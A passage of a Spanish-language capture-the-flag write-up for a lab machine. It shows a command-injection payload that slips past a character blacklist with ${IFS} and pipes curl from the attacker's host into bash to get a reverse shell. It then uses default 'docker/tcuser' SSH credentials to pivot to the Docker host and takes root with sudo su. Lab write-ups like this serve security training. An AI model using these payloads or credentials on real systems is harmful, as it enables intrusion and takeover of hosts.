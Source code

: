 Notamos una blacklist con caracteres, incluido el espacio, pero lo evadimos usando `${IFS}` en lugar de espacio.

```bash
10.10.14.10/$(curl${IFS}10.10.14.10|bash)
```

Al enviar la petición, se carga nuestro `index.html` con la reverse shell, obteniendo acceso como `www-data` y encontrando la primera flag.

```bash
❯ sudo netcat -lvnp 443
```

```plaintext
www-data@cee1146c7ac1:~/html/ssltools$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cee1146c7ac1:~/html/ssltools$ hostname -I
172.17.0.2
www-data@cee1146c7ac1:~/html/ssltools$ ls
0fe092ba0_flag.txt  certificate.php  logo.png
www-data@cee1146c7ac1:~/html/ssltools$ cat 0fe092ba0_flag.txt  
HADES{Fr4**********Ng}
www-data@cee1146c7ac1:~/html/ssltools$
```
Se ha observado que estamos trabajando en un entorno dentro de un contenedor de Docker. La dirección IP asignada a este contenedor es **X.X.X.2**. Durante pruebas realizadas con credenciales por defecto en la dirección **X.X.X.1**, se logró acceder utilizando el usuario "docker".

Se ha detectado que se dispone de privilegios totales (ALL) en el archivo de configuración sudoers. Esto permite elevar los privilegios utilizando el comando `sudo su`, lo que nos otorga acceso como superusuario (root).

```zsh
www-data@cee1146c7ac1:~$ ssh docker@172.17.0.1
docker@172.17.0.1's password: tcuser
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.  
 (/-_--_-\)           www.tinycorelinux.net

docker@default:~$ id
uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)
docker@default:~$ sudo su
root@default:~# id
uid=0(root) gid=0(root) groups=0(root)  
root@default:~#
```

Se han identificado cinco direcciones IP diferentes en las interfaces de red de este contenedor. Destaca especialmente la dirección **192.168.99.100** asignada a la interfaz **eth1**.

```shell
root@default:~# ifconfig
docker0   Link encap:Ethernet  HWaddr 02:42:57:6D:1C:4B
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          inet6 addr: fe80::42:57ff:fe6d:1c4b/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:5276 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6767 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:483614 (472.2 KiB)  TX bytes:9003824 (8.5 MiB)

eth0      Link encap:Ethernet  HWaddr 08:00:27:20:AF:32
          inet addr:10.0.2.15  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe20:af32/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:16931 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6608 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
```
